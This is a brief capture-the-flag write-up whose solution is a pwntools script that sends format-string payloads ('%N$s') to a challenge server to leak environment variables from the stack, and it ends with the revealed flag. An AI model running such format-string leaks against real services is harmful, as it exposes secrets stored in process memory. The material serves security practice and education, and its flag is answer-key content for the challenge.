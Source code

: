 #### Challenge:

Everyone knows you can get env variables with getenv. That's why I don't give you a chance to use it!

---

#### Solution:

```python
from pwn import *
from struct import *


context.log_level = 'error'

for i in range(40, 60):
    try:
        r = remote('01.linux.challenges.ctf.thefewchosen.com', 59966)
        print(r.recvline().decode('utf-8').strip())
        r.sendline(b'%' + b'%d$s' % (i))
        print(r.recvline().decode('utf-8').strip())
        r.close()
    except:
        continue
```

---

<details><summary>FLAG:</summary>

```
TFCCTF{3v3ry0ne_f0rg3ts_char_*envp...}
```

</details>
<br/>
